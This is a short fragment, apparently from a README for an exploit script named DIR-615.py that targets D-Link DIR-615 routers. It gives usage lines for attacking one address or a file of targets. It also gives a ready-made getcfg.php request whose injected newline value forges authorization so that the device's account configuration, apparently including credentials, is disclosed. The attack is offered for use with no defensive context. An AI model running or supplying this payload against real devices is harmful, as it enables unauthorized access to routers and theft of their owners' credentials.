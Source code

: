 python DIR-615.py -u http://192.168.0.1

python DIR-615.py -r file.txt

                                         Use this Method
192.168.4.1/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1
